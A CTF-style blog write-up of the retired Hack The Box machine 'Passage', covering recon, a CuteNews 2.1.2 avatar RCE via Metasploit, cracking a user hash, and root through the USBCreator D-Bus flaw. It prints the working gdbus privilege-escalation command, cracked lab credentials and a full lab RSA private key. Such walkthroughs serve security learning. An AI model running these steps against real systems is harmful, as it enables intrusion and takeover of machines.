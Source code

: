 Title:HTB: Passage
Date: 03-09-2021 09:20
category:security
tags:security, boot2root, HTB, linux
meta:security, boot2root, HTB, linux

<img class="align-left" src="/media/2021.03/passage_card.png" alt="Passage Card" width="262">

This is a writeup about a retired HacktheBox machine:
[Passage](https://www.hackthebox.eu/home/machines/profile/275) publish on
September 2, 2020 by
[ChefByzen](https://www.hackthebox.eu/home/users/profile/140851).
This box is rated as a medium box. It implies two public exploit and a shared SSH
private key.

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.80 scan initiated Sun Sep 13 03:46:59 2020 as: nmap -p- -sSV -oN nmap 10.10.10.206
    Nmap scan report for 10.10.10.206
    Host is up (0.086s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Web

We browse to the website. This is a simple blog with some news. One of them is
about a [fail2ban](https://www.fail2ban.org/wiki/index.php/Main_Page)
implementation. This will dissuade us to brute force login interfaces (which
rarely happen on HTB) and run `dirb` against the site.

![Passage News index](/media/2021.03/passage_01.png)

When looking at the bottom of the page we see that the blog is "Powered by
CuteNews". A few Google search lead us to the admin panel located at `/CuteNews`

![Cute News login page](/media/2021.03/passage_02.png)

We cannot login as we don't have any creds nor create an account.
We also check the available exploit for this CuteNews version (2.1.2).

    :::text
    kali@kali:~$ searchsploit CuteNews 2.1.2
    ----------------------------------------------------------- ---------------------------------
    Exploit Title                                             |  Path
    ----------------------------------------------------------- ---------------------------------
    CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploi | php/remote/46698.rb
    CuteNews 2.1.2 - Arbitrary File Deletion                   | php/webapps/48447.txt
    CuteNews 2.1.2 - Authenticated Arbitrary File Upload       | php/webapps/48458.txt
    ----------------------------------------------------------- ---------------------------------
    Shellcodes: No Results

We import the 'Avatar' exploit into metasploit using [rapid7 guide](https://github.com/rapid7/metasploit-framework/wiki/Running-Private-Modules).
We register an account an launch the exploit and got a reverse shell as `www-data`.

We look at the available files. We found the `cdata` folder just a level above
and then the `users` directory. We display some of them. They contain base64
encoded user data. Some of them contain a SHA256 hashed password.

    :::text
    cat b0.php
    <?php die('Direct call - access denied'); ?>
    YToxOntzOjQ6Im5hbWUiO2E6MTp7czoxMDoicGF1bC1jb2xlcyI7YTo5OntzOjI6ImlkIjtzOjEwOiIxNTkyNDgzMjM2IjtzOjQ6Im5hbWUiO3M6MTA6InBhdWwtY29sZXMiO3M6MzoiYWNsIjtzOjE6IjIiO3M6NToiZW1haWwiO3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6NDoibmljayI7czoxMDoiUGF1bCBDb2xlcyI7czo0OiJwYXNzIjtzOjY0OiJlMjZmM2U4NmQxZjgxMDgxMjA3MjNlYmU2OTBlNWQzZDYxNjI4ZjQxMzAwNzZlYzZjYjQzZjE2ZjQ5NzI3M2NkIjtzOjM6Imx0cyI7czoxMDoiMTYwMDA4MDM1OSI7czozOiJiYW4iO3M6MToiMCI7czozOiJjbnQiO3M6MToiMiI7fX19

    a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}

We grab all the hashes and crack them using `john` and the rockyou wordlist.
`Paul`'s password is `atlanta1`.

    :::text
    [maggick@fomalhaut ~]$ john hash -w=~/tools/password_lists/rockyou.txt --fork=8 --rules --format=Raw-SHA256
    Using default input encoding: UTF-8
    Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 128/128 AVX 4x])
    Warning: OpenMP was disabled due to --fork; a non-OpenMP build may be faster
    Node numbers 1-8 of 8 (fork)
    Each node loaded 1/8 of wordfile to memory (about 16 MB/node)
    atlanta1         (paul)
    Press 'q' or Ctrl-C to abort, almost any other key for status
    atlanta1         (paul)
    atlanta1         (paul)
    atlanta1         (paul)
    Waiting for 7 children to terminate
    Session completed

We open a shell, and try to switch user but we cannot use `su` as we don't have
a proper terminal. Using
[Payload all the things cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell)
we get an interactive shell and get logged in as `paul` and grab the user flag.

    :::text
    meterpreter > shell
    Process 3053 created.
    Channel 14 created.
      su 
    su: must be run from a terminal
    /usr/bin/script -qc /bin/bash /dev/null                  
    www-data@passage:/var/www/html/CuteNews/cdata/users$ su paul
    su paul
    Password: atlanta1

    paul@passage:/var/www/html/CuteNews/cdata/users$ cd
    cd
    paul@passage:~$ cat user.txt
    cat user.txt 
    c9e5ea0c3e42965404e9cf34eaee71bd

# Root

We grab the SSH key in paul's `.ssh` folder. The associated public key show us
that this is `nadav` public (and private) key.

    :::text
    cat .ssh/id_rsa.pub
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage
    paul@passage:~$ cat .ssh/id_rsa
    cat .ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAs14rHBRld5fU9oL1zpIfcPgaT54Rb+QDj2oAK4M1g5PblKu/
    +L+JLs7KP5QL0CINoGGhB5Q3aanfYAmAO7YO+jeUS266BqgOj6PdUOvT0GnS7M4i
    Z2Lpm4QpYDyxrgY9OmCg5LSN26Px948WE12N5HyFCqN1hZ6FWYk5ryiw5AJTv/kt
    rWEGu8DJXkkdNaT+FRMcT1uMQ32y556fczlFQaXQjB5fJUXYKIDkLhGnUTUcAnSJ
    JjBGOXn1d2LGHMAcHOof2QeLvMT8h98hZQTUeyQA5J+2RZ63b04dzmPpCxK+hbok
    sjhFoXD8m5DOYcXS/YHvW1q3knzQtddtqquPXQIDAQABAoIBAGwqMHMJdbrt67YQ
    eWztv1ofs7YpizhfVypH8PxMbpv/MR5xiB3YW0DH4Tz/6TPFJVR/K11nqxbkItlG
    QXdArb2EgMAQcMwM0mManR7sZ9o5xsGY+TRBeMCYrV7kmv1ns8qddMkWfKlkL0lr
    lxNsimGsGYq10ewXETFSSF/xeOK15hp5rzwZwrmI9No4FFrX6P0r7rdOaxswSFAh
    zWd1GhYk+Z3qYUhCE0AxHxpM0DlNVFrIwc0DnM5jogO6JDxHkzXaDUj/A0jnjMMz
    R0AyP/AEw7HmvcrSoFRx6k/NtzaePzIa2CuGDkz/G6OEhNVd2S8/enlxf51MIO/k
    7u1gB70CgYEA1zLGA35J1HW7IcgOK7m2HGMdueM4BX8z8GrPIk6MLZ6w9X6yoBio
    GS3B3ngOKyHVGFeQrpwT1a/cxdEi8yetXj9FJd7yg2kIeuDPp+gmHZhVHGcwE6C4
    IuVrqUgz4FzyH1ZFg37embvutkIBv3FVyF7RRqFX/6y6X1Vbtk7kXsMCgYEA1WBE
    LuhRFMDaEIdfA16CotRuwwpQS/WeZ8Q5loOj9+hm7wYCtGpbdS9urDHaMZUHysSR
    AHRFxITr4Sbi51BHUsnwHzJZ0o6tRFMXacN93g3Y2bT9yZ2zj9kwGM25ySizEWH0
    VvPKeRYMlGnXqBvJoRE43wdQaPGYgW2bj6Ylt18CgYBRzSsYCNlnuZj4rmM0m9Nt
    1v9lucmBzWig6vjxwYnnjXsW1qJv2O+NIqefOWOpYaLvLdoBhbLEd6UkTOtMIrj0
    KnjOfIETEsn2a56D5OsYNN+lfFP6Ig3ctfjG0Htnve0LnG+wHHnhVl7XSSAA9cP1
    9pT2lD4vIil2M6w5EKQeoQKBgQCMMs16GLE1tqVRWPEH8LBbNsN0KbGqxz8GpTrF
    d8dj23LOuJ9MVdmz/K92OudHzsko5ND1gHBa+I9YB8ns/KVwczjv9pBoNdEI5KOs
    nYN1RJnoKfDa6WCTMrxUf9ADqVdHI5p9C4BM4Tzwwz6suV1ZFEzO1ipyWdO/rvoY
    f62mdwKBgQCCvj96lWy41Uofc8y65CJi126M+9OElbhskRiWlB3OIDb51mbSYgyM
    Uxu7T8HY2CcWiKGe+TEX6mw9VFxaOyiBm8ReSC7Sk21GASy8KgqtfZy7pZGvazDs
    OR3ygpKs09yu7svQi8j2qwc7FL6DER74yws+f538hI7SHBv9fYPVyw==
    -----END RSA PRIVATE KEY-----

So we just us the SSH key to connect as `nadav`.

    :::text
    kali@kali:~$ ssh -l nadav 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Sep 14 04:54:44 2020 from 10.10.14.5
    nadav@passage:~$ id
    uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

We look at the files in the home folder. In .viminfo we found that one of the
latest edited file is about USBCreator.

    :::text
    # Jumplist (newest first):
    -'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
    -'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

A quick Google search lead us a [blog post](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)
with an USBCreator privilege escalation exploit allowing to write a file on the system as
root. We reproduce the steps in order to copy `nadav`'s `authorized_keys` file in
the `root`'s `.ssh` directory. We can then connect as `root` with our SSH key
and get the flag.


    :::text
    nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/.ssh/authorized_keys /root/.ssh/authorized_keys true
    ()
    nadav@passage:~$ logout
    Connection to 10.10.10.206 closed.
    kali@kali:~$ ssh -l nadav 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Sep 14 05:13:56 2020 from 127.0.0.1
    nadav@passage:~$ logout
    Connection to 10.10.10.206 closed.
    kali@kali:~$ ssh -l root 10.10.10.206 -i .ssh/id_rsa-2
    load pubkey ".ssh/id_rsa-2": invalid format
    Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
    root@passage:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@passage:~# cat root.txt o
    db9c53fcf5bde2fa5a591bcb948a1d3a

# Wrapping up

This box was quit easy. Not to much rabbit hole. At the end this is just the
chaining of two public exploits. I will recommend it for beginners.

